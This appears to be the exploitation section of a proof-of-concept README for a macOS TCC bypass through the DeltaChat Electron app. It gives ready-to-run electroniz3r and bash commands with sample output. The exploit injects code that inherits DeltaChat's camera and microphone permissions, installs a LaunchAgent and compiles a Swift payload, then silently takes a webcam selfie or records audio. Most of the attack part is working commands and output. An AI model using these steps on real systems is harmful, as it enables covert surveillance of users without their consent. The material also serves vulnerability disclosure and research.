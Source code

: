 # Exploitation

Showing a few ways to exploit this vulnerability, also showing a "new" vulnerability/technique with TCC that _can_ be useful for tricking a user for more TCC rights, e.g. full disk access or any other TCC rights. 

>**Note:** When running this proof-of-concept, the Terminal app does not need a prompt for camera access. This is because the camera permission is granted to DeltaChat, and the injected code inherits those permissions, effectively bypassing macOS TCC restrictions.

### Automated 

Run the following from Terminal using [electroniz3r](https://github.com/r3ggi/electroniz3r)

```sh
electroniz3r inject /Applications/DeltaChat.app/ --predefined-script takeSelfie
```

Sample output:
```sh
/Applications/DeltaChat.app/ started the debug WebSocket server
The webSocketDebuggerUrl is: ws://127.0.0.1:13337/56264727-4473-4393-b712-7e24c65a1c71
Check /tmp/selfie.jpg
```

Confirm the result by running:
```sh
open /tmp/selfie.jpg
```

<img width="1502" height="470" alt="poc-delta" src="https://github.com/user-attachments/assets/6bcc6604-8707-4924-89c8-2d8985aab39e" />

A picture is taken using the system webcam, without Terminal having any camera access this demonstrates a successful TCC bypass.

### Bash Script 

Clone the repository and then execute the bash script, the bash script autoexploits the TCC Bypass, then you can choose between exploiting camera or microphone TCC bypass. 

Execute bash script:
```sh
bash full_exploit.sh
# or
chmod +x full_exploit.sh && ./full_exploit.sh
```

Example output camera: (auto opens the selfie)
```sh
kunpeeks@MacBook-Pro-van-Kun % bash exploit.sh 
[*] Choose the TCC resource to access:
    1. Camera (take selfie)
    2. Microphone (record 5 sec)
[?] Enter choice (1 or 2): 1
[*] Generating Swift payload...
[*] Mode: Camera (selfie)
[*] Compiling Swift payload to /Users/kunpeeks/Desktop/tcc_payload
[*] Writing LaunchAgent to /Users/kunpeeks/Library/LaunchAgents/com.deltachat.tcc.bypass.plist
[*] Triggering DeltaChat exploit via launchctl...
[*] Waiting for payload to complete...
[+] Selfie taken! Opening...
```

Example output microphone: (does not auto open the recording file, I'm too lazy too fix it)
```sh
kunpeeks@MacBook-Pro-van-Kun 2 % bash exploit.sh
[*] Choose the TCC resource to access:
    1. Camera (take selfie)
    2. Microphone (record 5 sec)
[?] Enter choice (1 or 2): 2
[*] Generating Swift payload...
[*] Mode: Microphone (5 sec recording)
[*] Compiling Swift payload to /Users/kunpeeks/Desktop/tcc_payload
[*] Writing LaunchAgent to /Users/kunpeeks/Library/LaunchAgents/com.deltachat.tcc.bypass.plist
[*] Triggering DeltaChat exploit via launchctl...
[*] Waiting for payload to complete...
[+] Audio recording complete! Playing...
Error: AudioFileOpen failed ('dta?')
```

The recorded 5s audio file is located in `/tmp/recording.m4a`. 






